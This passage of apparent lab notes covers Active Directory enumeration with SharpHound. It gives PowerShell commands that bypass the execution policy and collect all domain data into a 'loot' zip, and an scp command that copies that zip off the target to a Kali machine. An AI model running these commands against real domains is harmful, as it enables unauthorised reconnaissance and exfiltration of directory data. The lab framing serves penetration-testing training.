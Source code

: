 Getting loot with SharpHound

``` ps1
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

"loot.zip" output
``` txt
Directory: C:\Users\Administrator

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        5/13/2020   8:01 PM                3D Objects
d-r---        5/13/2020   8:01 PM                Contacts
d-r---        5/13/2020   8:01 PM                Desktop
d-r---        5/14/2020   8:27 PM                Documents
d-r---        10/3/2020   8:33 AM                Downloads
d-r---        5/13/2020   8:01 PM                Favorites
d-r---        5/13/2020   8:01 PM                Links
d-r---        5/13/2020   8:01 PM                Music
d-r---        5/13/2020   8:01 PM                Pictures
d-r---        5/13/2020   8:01 PM                Saved Games
d-r---        5/13/2020   8:01 PM                Searches
d-r---        5/13/2020   8:01 PM                Videos
-a----        9/16/2021  12:58 PM           9496 20210916125838_loot.zip
-a----        9/16/2021  12:58 PM          11709 YmM2MWQ1NzYtYWFhYS00MjM1LThjYmQtYTE4ZDM4ZGFiNTFl.bin
```

Copy file to Kali server: `scp -r Administrator@10.10.225.31:/Users/Administrator/20210916125838_loot.zip .`

Setup a SSH Tunnel for port 7474 and 7687 (example just shows 7474)

![ssh-tunnel](_ssh-tunnel.webp)
